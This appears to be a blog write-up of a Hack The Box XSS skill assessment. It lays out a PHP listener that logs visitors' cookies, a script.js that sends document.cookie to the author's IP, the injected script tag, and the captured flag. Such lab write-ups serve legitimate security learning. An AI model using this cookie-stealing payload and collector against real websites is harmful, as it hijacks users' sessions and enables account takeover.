


Hi guys! I think it has been quite a long time since I updated things on HTB because I have learnt some new things about binary and reverse hahah. I also have been trying some boxes on tryhackme. I will update about these two learning platforms in the future to help you guys have a glance and choose which one you guys need!

And today is the skill assessment of XSS. :V On the weeknd the VPN connection is soo slow and has such high latency i cant do any scans or even connect to the target :(

Alright, so here are my steps to solve this challenge



# Part1 :prepare things

```php
┌──(kali㉿kali)-[~]
└─$ mkdir /tmp/tmpserver
                                                                                                                    
┌──(kali㉿kali)-[~]
└─$ cd /tmp/tmpserver
                                                                                                                    
┌──(kali㉿kali)-[/tmp/tmpserver]
└─$ sudo php -S 0.0.0.0:80
[sudo] password for kali: 
[Sun Nov 30 21:45:28 2025] PHP 8.4.11 Development Server (http://0.0.0.0:80) started

```

### Create `index.php` at /tmp/tmpserver

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

### Create `script.js` at /tmp/tmpserver

```php
new Image().src='http://10.10.16.4/index.php?c='+document.cookie
```

# Part 2 : ch3cking 4round

I guess here is where we are going to test some payloads


The website box looks kind of suspicious so i would like to enter a payload here 

```php
<script src=http://10.10.16.4/script.js></script>
```



And now take a look at our listener 

Booom !! we got the flag

```php
[Sun Nov 30 22:31:32 2025] 10.129.255.53:55924 Accepted
[Sun Nov 30 22:31:35 2025] 10.129.255.53:55924 [200]: GET /index.php?c=wordpress_test_cookie=WP%20Cookie%20check;%20wp-settings-time-2=1764559892;%20flag=HTB{cr055_5173_5cr1p71n6_n1nj4}                                               
[Sun Nov 30 22:31:35 2025] 10.129.255.53:55924 Closing

```

flag= `HTB{cr055_5173_5cr1p71n6_n1nj4}`  

Well! If you solve the previous question ( i mean session hijacking), then it is super easy to solve this skill assessment :V